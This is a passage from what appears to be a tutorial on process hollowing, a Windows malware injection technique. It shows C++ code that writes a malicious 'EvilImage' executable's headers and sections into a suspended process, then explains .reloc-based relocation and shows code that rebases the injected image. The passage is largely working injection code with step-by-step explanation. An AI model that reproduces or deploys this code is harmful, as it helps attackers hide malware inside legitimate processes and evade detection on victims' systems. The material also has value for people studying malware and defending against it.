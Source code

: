 ```cpp
    if (!WriteProcessMemory(proc_info.hProcess, BaseAddress, EvilImage, nt_head->OptionalHeader.SizeOfHeaders, 0)) {
        printf("Failed to write Headers\n");
        return 0;
    }

    PIMAGE_SECTION_HEADER sec_head;
    printf("Writing Sections:\n");
    for (int i = 0; i < nt_head->FileHeader.NumberOfSections; i++) {
        sec_head = (PIMAGE_SECTION_HEADER)((LPBYTE)EvilImage + dos_head->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
        printf("0x%lx -- Writing Section: %s\n", (LPBYTE)mem + sec_head->VirtualAddress, sec_head->Name);
        if (!WriteProcessMemory(proc_info.hProcess, (PVOID)((LPBYTE)mem + sec_head->VirtualAddress), (PVOID)((LPBYTE)EvilImage + sec_head->PointerToRawData), sec_head->SizeOfRawData, NULL)) {
            printf("Error Writing section: %s. At: %x%llp\n", sec_head->Name, (LPBYTE)mem + sec_head->VirtualAddress);
        }
    }
```

So after successfully allocating memory, we start by writing the PE optional headers that contains informations like the base adress, number of sections ... . Then we iterate over the sections, for each one we get the start adress of the section, and write the section in the allocated memory using the adress.

Super easy.

### Adjust Base Adresses ( relocating : The hard part for me )

It seems like we are done !!! but no, we should adjust the base addresses of the code and data if the executable is not loaded at its preferred base address. 
The way to do this is by reconfiguring the relocation in `.reloc` section, dont worry if you didn't understand this, i'll make it easier, so let's get some information about .reloc section.

The `.reloc` section in a PE file contains relocation information used by the windows loader when the executable is loaded into memory. This section is crucial when the executable is not loaded at its preferred base address, requiring adjustments to certain memory addresses within the code and data.

For more understanding on why we need this relocation, When an executable is compiled, it is typically assigned a preferred base address where it expects to be loaded into memory. However, if another executable is already using that address space, the operating system will load the new executable at a different address. This is where the .reloc section comes to play.

```cpp
	#ifdef _X86_
		// Calculate The Offset Of The Susspended Process Base Address From The Files Base Address
		DWORD BaseOffset = (DWORD)BaseAddress - nt_head->OptionalHeader.ImageBase;
		printf("Original Process Base: 0x%llx\nEvil File Base: 0x%llx\nOffset: 0x%llx\n\n", nt_head->OptionalHeader.ImageBase, BaseAddress, BaseOffset);


		// Change The Files Base Address To The Base Address Of The Susspended Process
		nt_head->OptionalHeader.ImageBase = (DWORD)BaseAddress;
	#endif
	#ifdef _WIN64
		// Calculate The Offset Of The Susspended Process Base Address From The Files Base Address
		DWORD64 BaseOffset = (DWORD64)BaseAddress - nt_head->OptionalHeader.ImageBase;
		printf("Original Process Base: 0x%llx\nEvil File Base: 0x%llx\nOffset: 0x%llx\n\n", nt_head->OptionalHeader.ImageBase, BaseAddress, BaseOffset);


		// Change The Files Base Address To The Base Address Of The Susspended Process
		nt_head->OptionalHeader.ImageBase = (DWORD64)BaseAddress;
```
